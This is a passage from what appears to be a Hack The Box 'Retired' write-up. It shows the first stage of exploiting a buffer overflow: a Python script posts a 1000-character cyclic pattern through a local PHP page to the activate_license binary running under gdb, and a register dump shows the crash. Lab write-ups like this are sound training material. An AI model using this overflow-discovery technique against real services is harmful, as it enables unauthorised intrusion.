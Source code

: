 Now we can run the binary:

```sh
gdb-peda$ run
Starting program: /root/htb/retired/activate_license 1337
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] starting server listening on port 1337
[+] listening ...
```

So now we have our PHP server hosting the php script that will push our payload to the binary running in gdb and listening on port 1337. Next we need a simple Python script to send the pattern we've just created:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# cat pencer.py
import requests
f = open("pencer.txt", "r")
payload = f.read()
f.close()
r = requests.post(f"http://localhost:8080/activate_license.php", files = { "licensefile": payload } )
```

This is just reading in our txt file containing the 1000 character pattern we created in gdb. Then it posts it to the php script which write it to the activate_license binary running in gdb:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# python pencer.py
```

## Segmentation Fault

If we switch to gdb now we'll see it's crashed:

```sh
Thread 2.1 "activate_licens" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff7b0f480 (LWP 2819)]
[----------------------------------registers-----------------------------------]
RAX: 0x338 
RBX: 0x5555555557c0 (<__libc_csu_init>: push   r15)
RCX: 0x0 
RDX: 0x0 
RSI: 0x0 
RDI: 0x7fffffffdb40 --> 0x7ffff7cd3d70 (<__funlockfile>:  mov rdi,QWORD PTR [rdi+0x88])
RBP: 0x4e73413873416973 ('siAs8AsN')
RSP: 0x7fffffffe2d8 ("AsjAs9AsOAsk<SNIP>ABMABiAB8AB"...)
RIP: 0x5555555555c0 (<activate_license+643>:    ret)
R8 : 0xfffffffffffffff7 
R9 : 0x7ffff7e0d0c0 --> 0x0 
R10: 0x7ffff7e0cfc0 --> 0x0 
R11: 0x246 
R12: 0x555555555220 (<_start>:  xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
<SNIP>
Stopped reason: SIGSEGV
```
